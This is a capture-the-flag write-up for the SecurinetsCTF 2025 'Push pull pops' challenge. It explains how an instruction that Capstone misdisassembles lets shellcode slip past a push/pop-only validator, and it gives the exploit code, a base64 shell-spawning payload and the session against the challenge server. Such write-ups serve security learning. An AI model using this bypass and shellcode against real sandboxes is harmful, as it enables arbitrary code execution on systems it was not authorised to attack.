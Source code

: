 +++
author = "vmpr0be"
title = "SecurinetsCTF 2025 Quals - Push pull pops"
date = "2025-10-05"
categories = ["ctf"]
+++

### Overview

We're given a Python script that takes base64 input and decodes it, expecting x86_64 assembly code to execute.

```python
...
from capstone import Cs, CS_ARCH_X86, CS_MODE_64
from capstone import CS_OP_REG
...

def check(code: bytes):
    if len(code) > 0x2000:
        return False

    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True

    for insn in md.disasm(code, 0):
        name = insn.insn_name()
        if name!="pop" and name!="push" :
            if name=="int3" :
                continue
            return False
        if insn.operands[0].type!=CS_OP_REG:
            return False
            
        
    return True

def run(code: bytes):
    # Runs the code
    ...

def main():
    code = input("Shellcode : ")
    code = base64.b64decode(code.encode())
  
    ...

    if check(code):
        run(code)
  
    ...
```

We notice that the disassembler used in this challenge is [Capstone](https://github.com/capstone-engine/capstone).

For the script to run the given code, the following conditions must be met:
- The disassembled instruction must be `PUSH`, `POP`, or `INT3`.
- The `PUSH` and `POP` instructions must only contain a `REGx` as the first operand.

If any condition isn't met, the program will not run our code.

### Vulnerability

The vulnerability is in the check function, it keeps disassembling instructions until it hits an invalid instruction. This means if we provide an invalid instruction as the first instruction, it won't be disassembled without returning an error, thus skipping the next instructions.

### Exploitation

To exploit this vulnerability, we need to find an instruction that is valid to execute by the CPU but considered invalid for the disassembler.

Luckily there's [a still open issue](https://github.com/capstone-engine/capstone/issues/2442) about an instruction that isn't correctly disassembled wich is then deemed invalid.
After slight edit of the problematic instruction, we end up with the following instruction:

```
movsxd ecx, eax 
```

We just need to insert this instruction at the beginning of our shellcode to make the check function exit early due to that instruction being invalid.

```python
shellcode = b"\x63\xc8" # movsxd ecx, eax
shellcode += asm(shellcraft.sh()) # crafted shellcode that opens a shell
```

We then encode the shellcode in base64 and give it to the server:

```bash
> nc pwn-14caf623.p1.securinets.tn 9001

Shellcode : Y8hqaEi4L2Jpbi8vL3NQSInnaHJpAQGBNCQBAQEBMfZWagheSAHmVkiJ5jHSajtYDwU=

# We're now in a shell
> cat app/flag.txt
> Securinets{push_pop_to_hero}
```
